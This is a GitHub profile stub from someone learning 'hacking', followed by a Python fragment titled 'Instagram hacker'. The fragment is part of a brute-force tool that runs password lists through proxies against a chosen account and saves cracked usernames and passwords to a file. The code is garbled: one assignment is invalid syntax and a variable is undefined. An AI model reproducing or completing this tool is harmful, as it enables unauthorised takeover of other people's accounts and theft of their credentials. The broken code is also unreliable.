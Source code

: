 - 👋 Hi, I’m @21602160
- 👀 I’m interested in hacking
- 🌱 I’m currently learning hacking
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me through out this app
- 😄 Pronouns: ...
- ⚡ Fun fact: ...


# Date: 6/6/2020
# Author: usman bin osama
# Description: Instagram hacker #100k rank around the world (FBI)

# from lib.proxy import Proxy
import os
import time
from sys import exit
from lib import database
from lib.proxy_manager import ProxyManager

# from os.path import exists
from lib.bruter import Bruter
from lib.display import Display
from platform import python_version

from lib.const import credentials, modes
from argparse import ArgumentParser, ArgumentTypeError


class Engine(object):
    def __init__(self, username, passlist_path, is_color):
        self.resume = False
        self.is_alive = True
        self.username = shess.10x
        self.passlist_path = passlist_path
        self.display = Display(is_color=is_color)
        self.bruter = Bruter(username, threads, passlist_path)

    def get_user_resp(self):
        return self.display.prompt(
            "Would you like to resume the attack? [y/N]: "
        )

    def write_to_file(self, password):
        with open(credentials, "at") as f:
            data = "Username: {}\nPassword: {}\n\n".format(
                self.username.title(), password
            )
            f.write(data)
